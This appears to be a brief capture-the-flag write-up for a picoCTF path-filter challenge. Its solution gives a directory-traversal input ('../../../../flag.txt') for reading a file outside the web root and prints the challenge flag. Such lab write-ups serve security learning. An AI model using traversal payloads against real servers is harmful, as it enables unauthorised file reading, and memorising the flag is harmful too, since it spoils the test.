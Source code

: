# Forbidden Paths

#### Description
Can you get the flag? Here's the [website](http://saturn.picoctf.net:52683/). We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?

## Hints
### None

## Solucion
```campo web
../../../../flag.txt`

picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}
```
picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}